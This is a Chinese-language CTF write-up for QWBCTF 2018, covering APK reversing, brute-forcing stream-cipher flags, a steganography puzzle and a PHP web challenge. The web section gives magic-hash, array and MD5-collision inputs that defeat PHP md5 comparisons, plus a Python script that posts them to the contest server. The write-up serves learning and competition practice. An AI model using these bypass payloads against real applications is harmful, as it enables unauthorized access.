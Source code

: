 ```yaml
---
layout:     post
title:      "QWBCTF 2018 Writeup"
subtitle:   "QWB{xxxxxxxxxxxxx}"
date:       2018-03-26 22:00 +0800
author:     "gsfish, ThTsOd, ydh"
header-img: "img/post-bg-hacker.jpg"
tags:
    - CTF
---
```



# 0x00 Reverse

## simplecheck

下载下来发现是个 zip 文件，打开后发现是 apk，用 jeb 载入并反编译

![01.png](/img/qwbctf-2018-writeup/01.png)

发现 `a` 是验证函数，跟入

![02.png](/img/qwbctf-2018-writeup/02.png)

转成 C 语言，各个位独立，暴力解出 flag

![03.png](/img/qwbctf-2018-writeup/03.png)

---

# 0x01 Crypto

## streamgame1

根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==25` 推测 flag 为 19 个二进制位，暴力解出 flag 即可

![04.png](/img/qwbctf-2018-writeup/04.png)

## streamgame2

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 flag 为 21 个二进制位，暴力解出 flag 即可

![05.png](/img/qwbctf-2018-writeup/05.png)

## streamgame4

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 `flag` 为 21 个二进制位，这里只验证 key 前 16 个字节，暴力解出 flag 即可

![06.png](/img/qwbctf-2018-writeup/06.png)

---

# 0x02 Misc

## welcome

下载下来发现是 dib 文件，用 16 进制编辑器打开，发现前 2 个字节是 `BM` 重命名为 bmp 后用 StegSolve 打开。用 Stereogram Solver 偏移量 `offset` 为 80 后发现 flag

![07.png](/img/qwbctf-2018-writeup/07.png)

---

# 0x03 Web

## Web 签到

第一关网页源码的提示人如下。可用 PHP 弱类型过掉，`param1=QNKCDZO`、`param2=s878926199a`：

```php
if($_POST['param1']!=$_POST['param2'] && md5($_POST['param1'])==md5($_POST['param2'])){
    die("success!");
}
```

第二关将等于换成了全等于，传进去一个数组即可，使 `md5()` 的结果为 `null`。`param1[]=123`、`param2[]=456`。

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!");
}
```

第三关网页源码如下。由于使用了强制类型转换，传递对象则会转换为对象名称，因此只能使用 MD5 相等的字符串。使用 fastcoll 根据同一个文件生成了两个内容有差异，但 MD5 相同的文件 f1、f2，使用文件的二进制内容作为 param1、param2 参数。

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!);
}
```

使用脚本如下：

```python
import requests
session = requests.Session()
step1 = session.post("http://39.107.33.96:10000", data={
	"param1": "QNKCDZO",
	"param2": "s878926199a"
})
step2 = session.post("http://39.107.33.96:10000", data={
    "param1[]": "123",
    "param2[]": "456",
})
step3 = session.post("http://39.107.33.96:10000", data={
	"param1": open('f1', 'rb').read(),
	"param2": open('f2', 'rb').read()
})
print(step3.content)
```
